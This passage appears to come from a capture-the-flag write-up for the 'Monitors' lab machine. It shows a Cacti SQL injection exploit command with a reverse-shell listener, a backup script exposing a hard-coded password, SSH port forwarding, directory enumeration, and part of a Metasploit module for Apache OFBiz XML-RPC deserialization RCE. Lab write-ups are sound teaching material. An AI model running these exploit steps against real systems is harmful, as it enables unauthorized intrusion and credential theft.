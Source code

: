 Use this [exploit](https://www.exploit-db.com/exploits/49810) to perform SQL Injection.
```
python3 49810.py -t http://cacti-admin.monitors.htb -u admin -p BestAdministrator@2020! --lhost 10.10.14.2 --lport 1337
```

<br>

### marcus user

Inside marcus home, we have backup directory with this permissions:  
`d--x--x--x 2 marcus marcus 4096 Nov 10  2020 .backup`

This means we can enter the directory, but no list it. We need to find the name of the files inside it.

Enumerating the machine, we find inside `cacti-backup.service` that the name of the file is `backup.sh`.

There is a password from Marcus inside it.
```
#!/bin/bash

backup_name="cacti_backup"
config_pass="VerticalEdge2020"

zip /tmp/${backup_name}.zip /usr/share/cacti/cacti/*
sshpass -p "${config_pass}" scp /tmp/${backup_name} 192.168.1.14:/opt/backup_collection/${backup_name}.zip
rm /tmp/${backup_name}.zip
```

<br>

### shell on container
Looking at running process, we find this:
```
/usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8443 -container-ip 172.17.0.2
```

Port forward it:
```
ssh marcus@10.10.10.238 -L 8443:localhost:8443
```

There is nothing on the main page, but enumerating we find `/solr`.
```
gobuster dir -u https://127.0.0.1:8443 -w /usr/share/wordlists/dirb/big.txt -t 40 -k
```

Accessing this directory, we enumerate Apache OFBiz Release 17.12.0. Searching, we find ApacheOfBiz 17.12.01 - Remote Command Execution (RCE).

Searching for exploits, we find [this one](https://www.zerodayinitiative.com/blog/2020/9/14/cve-2020-9496-rce-in-apache-ofbiz-xmlrpc-via-deserialization-of-untrusted-data) that is a metasploit module. We can read the important part of this exploit that is:
```
  def send_request_xmlrpc(data)
    # http://xmlrpc.com/
    # https://ws.apache.org/xmlrpc/
    send_request_cgi(
      'method' => 'POST',
      'uri' => normalize_uri(target_uri.path, '/webtools/control/xmlrpc'),
      'ctype' => 'text/xml',
      'data' => <<~XML
        <?xml version="1.0"?>
        <methodCall>
          <methodName>#{rand_text_alphanumeric(8..42)}</methodName>
          <params>
            <param>
```